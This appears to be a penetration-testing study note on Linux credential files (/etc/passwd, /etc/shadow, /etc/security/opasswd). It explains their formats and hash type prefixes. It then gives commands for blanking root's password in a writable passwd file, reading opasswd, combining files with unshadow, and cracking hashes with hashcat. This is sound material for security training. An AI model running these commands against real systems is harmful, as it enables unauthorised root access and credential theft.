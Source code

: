 **[**### Passwd File
The `/etc/passwd` file contains information about every existing user on the system and can be read by all users and services. Each entry in the `/etc/passwd` file identifies a user on the system.

|`cry0l1t3`|`:`|`x`|`:`|`1000`|`:`|`1000`|`:`|`cry0l1t3,,,`|`:`|`/home/cry0l1t3`|`:`|`/bin/bash`|
|---|---|---|---|---|---|---|---|---|---|---|---|---|
|Login name||Password info||UID||GUID||Full name/comments||Home directory||Shell|

One of the rarest cases that we may find only on very old systems is the hash of the encrypted password in this field.

#### Exploiting /etc/passwd
Usually, we find the value `x` in this field, which means that the passwords are stored in an encrypted form in the `/etc/shadow` file. However, it can also be that the `/etc/passwd` file is writeable by mistake. This would allow us to clear this field for the user `root` so that the password info field is empty. 

Before
```shell
root:x:0:0:root:/root:/bin/bash
```
After
```shell
root::0:0:root:/root:/bin/bash
```
Login as root
```bash
su root
```

### Shadow File
`/etc/shadow` contains all the password information for the created users.

|`cry0l1t3`|`:`|`$6$wBRzy$...SNIP...x9cDWUxW1`|`:`|`18937`|`:`|`0`|`:`|`99999`|`:`|`7`|`:`|`:`|`:`|
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
|Username||Encrypted password||Last PW change||Min. PW age||Max. PW age||Warning period|Inactivity period|Expiration date|Unused|

`$<type>$<salt>$<hashed>`

- `$1$` – MD5
- `$2a$` – Blowfish
- `$2y$` – Eksblowfish
- `$5$` – SHA-256
- `$6$` – SHA-512

If this is readable we can take it offline and crack it
```bash
hashcat -m 1800 root.hash ~/rockyou.txt -O
```

### Opasswd
The PAM library (`pam_unix.so`) can prevent reusing old passwords. The file where old passwords are stored is the `/etc/security/opasswd`. Administrator/root permissions are also required to read the file if the permissions for this file have not been changed manually.

```bash
adot8@htb[/htb]$ sudo cat /etc/security/opasswd

cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

The `MD5` (`$1$`) algorithm is much easier to crack than SHA-512. This is especially important for identifying old passwords and maybe even their pattern because they are often used across several services or applications.
### Unshadow
```bash
unshadow passwd.bak shadow.bak > unshadow.hashes

hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o unshadow.cracked
```

```bash
hashcat -m 500 -a 0 md5.hashes ~/rockyou.txt
```
